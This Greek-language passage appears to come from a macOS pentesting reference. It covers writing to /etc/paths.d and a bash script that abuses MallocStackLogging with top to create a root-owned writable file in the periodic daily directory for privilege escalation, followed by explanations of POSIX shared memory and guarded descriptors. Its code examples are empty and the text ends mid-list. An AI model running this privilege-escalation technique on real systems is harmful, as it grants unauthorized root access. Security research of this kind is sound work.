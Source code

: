 Μπορείτε επίσης να γράψετε αρχεία στο **`/etc/paths.d`** για να φορτώσετε νέους φακέλους στη μεταβλητή περιβάλλοντος `PATH`.

## Δημιουργία εγγράψιμων αρχείων ως άλλοι χρήστες

Αυτό θα δημιουργήσει ένα αρχείο που ανήκει στον root και είναι εγγράψιμο από εμένα ([**κώδικας από εδώ**](https://github.com/gergelykalman/brew-lpe-via-periodic/blob/main/brew\_lpe.sh)). Αυτό μπορεί επίσης να λειτουργήσει ως privesc:
```bash
DIRNAME=/usr/local/etc/periodic/daily

mkdir -p "$DIRNAME"
chmod +a "$(whoami) allow read,write,append,execute,readattr,writeattr,readextattr,writeextattr,chown,delete,writesecurity,readsecurity,list,search,add_file,add_subdirectory,delete_child,file_inherit,directory_inherit," "$DIRNAME"

MallocStackLogging=1 MallocStackLoggingDirectory=$DIRNAME MallocStackLoggingDontDeleteStackLogFile=1 top invalidparametername

FILENAME=$(ls "$DIRNAME")
echo $FILENAME
```
## POSIX Shared Memory

**Η κοινή μνήμη POSIX** επιτρέπει στις διεργασίες σε λειτουργικά συστήματα συμβατά με POSIX να έχουν πρόσβαση σε μια κοινή περιοχή μνήμης, διευκολύνοντας ταχύτερη επικοινωνία σε σύγκριση με άλλες μεθόδους επικοινωνίας μεταξύ διεργασιών. Περιλαμβάνει τη δημιουργία ή το άνοιγμα ενός αντικειμένου κοινής μνήμης με `shm_open()`, την ρύθμιση του μεγέθους του με `ftruncate()`, και την αντιστοίχιση του στη διεύθυνση μνήμης της διεργασίας χρησιμοποιώντας `mmap()`. Οι διεργασίες μπορούν στη συνέχεια να διαβάζουν και να γράφουν απευθείας σε αυτήν την περιοχή μνήμης. Για τη διαχείριση ταυτόχρονων προσβάσεων και την αποφυγή διαφθοράς δεδομένων, χρησιμοποιούνται συχνά μηχανισμοί συγχρονισμού όπως οι mutexes ή οι semaphores. Τέλος, οι διεργασίες αποδεσμεύουν και κλείνουν την κοινή μνήμη με `munmap()` και `close()`, και προαιρετικά αφαιρούν το αντικείμενο μνήμης με `shm_unlink()`. Αυτό το σύστημα είναι ιδιαίτερα αποτελεσματικό για αποδοτική, γρήγορη IPC σε περιβάλλοντα όπου πολλές διεργασίες χρειάζεται να έχουν γρήγορη πρόσβαση σε κοινά δεδομένα.

<details><summary>Παράδειγμα Κώδικα Παραγωγού</summary></details>

<details><summary>Παράδειγμα Κώδικα Καταναλωτή</summary></details>

## macOS Guarded Descriptors

**macOSCguarded descriptors** είναι μια λειτουργία ασφαλείας που εισήχθη στο macOS για να ενισχύσει την ασφάλεια και την αξιοπιστία των **λειτουργιών περιγραφής αρχείων** σε εφαρμογές χρήστη. Αυτοί οι προστατευμένοι περιγραφείς παρέχουν έναν τρόπο για να συσχετίσουν συγκεκριμένους περιορισμούς ή "φύλακες" με περιγραφείς αρχείων, οι οποίοι επιβάλλονται από τον πυρήνα.

Αυτή η λειτουργία είναι ιδιαίτερα χρήσιμη για την πρόληψη ορισμένων κατηγοριών ευπαθειών ασφαλείας όπως η **μη εξουσιοδοτημένη πρόσβαση σε αρχεία** ή οι **συνθήκες αγώνα**. Αυτές οι ευπάθειες συμβαίνουν όταν, για παράδειγμα, ένα νήμα έχει πρόσβαση σε μια περιγραφή αρχείου δίνοντας **σε ένα άλλο ευάλωτο νήμα πρόσβαση σε αυτήν** ή όταν ένας περιγραφέας αρχείου **κληρονομείται** από μια ευάλωτη διεργασία παιδί. Ορισμένες συναρτήσεις που σχετίζονται με αυτή τη λειτουργικότητα είναι:
